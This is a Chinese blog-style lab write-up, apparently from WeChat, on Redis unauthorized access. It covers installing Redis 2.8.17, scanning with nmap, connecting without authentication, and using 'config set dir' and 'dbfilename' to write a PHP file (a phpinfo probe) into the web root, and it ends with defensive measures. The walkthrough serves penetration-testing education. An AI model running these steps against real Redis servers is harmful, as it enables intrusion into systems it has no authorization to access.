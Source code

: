 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/14cKp5hFQmLhvxcqlnn47w)

![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTEJKMzQegLrSia2bM07eGuyd6bAsPV1Z3MEBs8WVGAHT30Zz930kCBc1s33ya7BZnNAcNlK1Frbr9g/640?wx_fmt=png)

#### 0x0**1 漏洞描述**

  Redis 默认情况下，会绑定在 0.0.0.0:6379，如果没有进行采用相关的策略，比如添加防火墙规则避免其他非信任来源 ip 访问等，这样将会将 Redis 服务暴露到公网上，如果在没有设置密码认证（一般为空）的情况下，会导致任意用户在可以访问目标服务器的情况下未授权访问 Redis 以及读取 Redis 的数据。攻击者在未授权访问 Redis 的情况下，利用 Redis 自身的提供的 config 命令，可以进行写文件操作，攻击者可以成功将自己的 ssh 公钥写入目标服务器的 /root/.ssh 文件夹的 authotrized_keys 文件中，进而可以使用对应私钥直接使用 ssh 服务登录目标服务器、添加计划任务、写入 Webshell 等操作。

#### 0x02 **漏洞环境搭建**

**环境准备：**

目标靶机: kali

ip 地址: 192.168.43.151  
连接工具:Putty、Redis-cli 客户端连接工具  

**公众号回复 "****Redis****" 即可获取相应工具**  

**环境搭建**:

```
wget http://download.redis.io/releases/redis-2.8.17.tar.gz
tar xzvf redis-2.8.17.tar.gz #解压安装包
cd redis-2.8.17 # 进入redis目录
make #编译
```

![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTEJKMzQegLrSia2bM07eGuyd3LXGrZQGHYaP0jzTCjiaoMLzeRjfDCqiaMavquud5kpNic0nicneSHP6vA/640?wx_fmt=png)

```
cd src/ #进入src目录
cp redis-server /usr/bin/
cp redis-cli /usr/bin/ #将redis-server和redis-cli拷贝到/usr/bin目录下（这样启动redis-server和redis-cli就不用每次都进入安装目录了）
cd .. # 返回上一级目录
cp redis.conf /etc/ #将redis.conf拷贝到/etc/目录下
redis-server /etc/redis.conf # 使用/etc/目录下的redis.conf文件中的配置启动redis服务
```

![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTEJKMzQegLrSia2bM07eGuydrueadlHLnbtWn7mlym7vPmeW8ibzAV63d821hdX06ULvwJvibjFFLEZg/640?wx_fmt=png)

0x03 漏洞利用  

利用：**C:\Users\yinxinghua\Desktop\ 小白的成长之路 \tools\redis 未授权访问 \redis-2.4.5-win32-win64\64bit>****.\redis-cli.exe -h 192.168.43.151**  

![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTEJKMzQegLrSia2bM07eGuydv7hVAnf6tanwJoH5KB7WhSpmJykObXVvmQCx0yJ9T2r45XxWmojXog/640?wx_fmt=png)

nmap 扫描：

```
Nmap -A -p 6379 –script redis-info 192.168.43.151
```

![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTEJKMzQegLrSia2bM07eGuydoHMmlxDf1EkJCdUrcibsfkP1Oic8UC2tsWuCtKpe3B3iafa1KvdNQr0Ig/640?wx_fmt=png)  

为了方便，在 windows 攻击机里下载一个 redis clinet  

```
下载地址：https://github.com/caoxinyu/RedisClient/releases （利用redis写webshell测试使用）
```

![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTEJKMzQegLrSia2bM07eGuydypLwVSyFK7ia8EVtibOeiaYmrg6WRzG4KbE1kWSrKRpaibqoFNADTDoJug/640?wx_fmt=png)  

未授权访问测试

使用 redis clinet 直接无账号成功登录 redis

![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTEJKMzQegLrSia2bM07eGuydxhTp4ciaah3gr0JlLCp4y4p7Ge6uAAmicNqqGdjXYxJPAU4ibHGNemnzw/640?wx_fmt=png)

从登录结果可以看出 redis 未启用认证。

![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTEJKMzQegLrSia2bM07eGuydfs4nqf7pcSTSUVeteuEzwdxgSDeuMTebMqjKfKlHU3DibgoCFiaCzyXA/640?wx_fmt=png)  

**利用 redis 写 webshell**

**利用前提**：

靶机 redis 未授权，在攻击机能用 redis clinet 连接，如上图，并未登录验证  
靶机开启 web 服务，并且知道网站路径，还需要具有文件读写增删改查权限

这里我们调出 Console

![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTEJKMzQegLrSia2bM07eGuydgQAV8iarFeXMiblWKq1MpmMh08vnRKew4jFryW10ibpXX4czcOpLy0PeQ/640?wx_fmt=png)

**由于本地搭建，我们已经知道网站路径（在实战中需要寻找网站绝对路径），我们把 shell 写入 /var/www/html/ 目录下：**  

```
config set dir /var/www/html
```

![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTEJKMzQegLrSia2bM07eGuydBtm9ylE7GpAfsbXUGq4LGk36f5icJjr63NTuibCLDibTUlKgqGrBREGBQ/640?wx_fmt=png)

```
config set dbfilename test.php
```

![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTEJKMzQegLrSia2bM07eGuydWpibflofpFQaHtOs3RREuJ5lEQdEEghbOVkmLB9TPVVj9ntT1QViajYg/640?wx_fmt=png)

```
config set webshell "<?php phpinfo(); ?>"
```

![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTEJKMzQegLrSia2bM07eGuydn1icwOIbVWIQzsSqlf0ZCppnAOmCmLmTfFy85cIiakxAxYxBWnJwROJA/640?wx_fmt=png)

**save**  

![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTEJKMzQegLrSia2bM07eGuyd6fYMu1tKxWGWYBcv9PdicuU51z5IwXOFBiceribgqzTK9vbibic7Vzk6RkA/640?wx_fmt=png)

访问 test.php 成功如下所示！（此图来源于网络，自己环境出现了不可描述事情![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTEJKMzQegLrSia2bM07eGuydMRQiaHTriaceOsJNMYjtcKBTDhAxlsrME5rIQqt0GWWoVcjB91qG51xQ/640?wx_fmt=png)）

![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTEJKMzQegLrSia2bM07eGuydu4QGkDsQ144LZfZHbA07b3r03Z20I4zPCLRkjD5wenN75uup75Y8mQ/640?wx_fmt=png)

#### 0x04 **防御手段**

```
-禁止使用root权限启动redis服务。
-对redis访问启动密码认证。
-添加IP访问限制，并更改默认6379端口。
```

**【往期推荐】**  

[未授权访问漏洞汇总](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247484804&idx=2&sn=519ae0a642c285df646907eedf7b2b3a&chksm=ea37fadedd4073c87f3bfa844d08479b2d9657c3102e169fb8f13eecba1626db9de67dd36d27&scene=21#wechat_redirect)  

[干货 | 常用渗透漏洞 poc、exp 收集整理](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485181&idx=3&sn=9eb034dd011ac71c4e3732129c332bb3&chksm=ea37f9a7dd4070b1545a9cb71ba14c8ced10aa30a0b43fb5052aed40da9ca43ac90e9c37f55a&scene=21#wechat_redirect)
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

[记一次 HW 实战笔记 | 艰难的提权爬坑](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247484991&idx=2&sn=5368b636aed77ce455a1e095c63651e4&chksm=ea37f965dd407073edbf27256c022645fe2c0bf8b57b38a6000e5aeb75733e10815a4028eb03&scene=21#wechat_redirect)  

[【超详细】Fastjson1.2.24 反序列化漏洞复现](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247484991&idx=1&sn=1178e571dcb60adb67f00e3837da69a3&chksm=ea37f965dd4070732b9bbfa2fe51a5fe9030e116983a84cd10657aec7a310b01090512439079&scene=21#wechat_redirect)

[【超详细】CVE-2020-14882 | Weblogic 未授权命令执行漏洞复现](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485550&idx=1&sn=921b100fd0a7cc183e92a5d3dd07185e&chksm=ea37f734dd407e22cfee57538d53a2d3f2ebb00014c8027d0b7b80591bcf30bc5647bfaf42f8&scene=21#wechat_redirect)  

[【奇淫巧技】如何成为一个合格的 “FOFA” 工程师](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485135&idx=1&sn=f872054b31429e244a6e56385698404a&chksm=ea37f995dd40708367700fc53cca4ce8cb490bc1fe23dd1f167d86c0d2014a0c03005af99b89&scene=21#wechat_redirect)
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

_**走过路过的大佬们留个关注再走呗**_![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTEATexewVNVf8bbPg7wC3a3KR1oG1rokLzsfV9vUiaQK2nGDIbALKibe5yauhc4oxnzPXRp9cFsAg4Q/640?wx_fmt=png)

**往期文章有彩蛋哦****![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTHtVfEjbedItbDdJTEQ3F7vY8yuszc8WLjN9RmkgOG0Jp7QAfTxBMWU8Xe4Rlu2M7WjY0xea012OQ/640?wx_fmt=png)**

![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTECbvcv6VpkwD7BV8iaiaWcXbahhsa7k8bo1PKkLXXGlsyC6CbAmE3hhSBW5dG65xYuMmR7PQWoLSFA/640?wx_fmt=png)  

![](https://mmbiz.qpic.cn/mmbiz_gif/XOPdGZ2MYOeicscsCKx326NxiaGHusgPNRnK4cg8icPXAOUEccicNrVeu28btPBkFY7VwQzohkcqunVO9dXW5bh4uQ/640?wx_fmt=gif)  如果对你有所帮助，点个分享、赞、在看呗！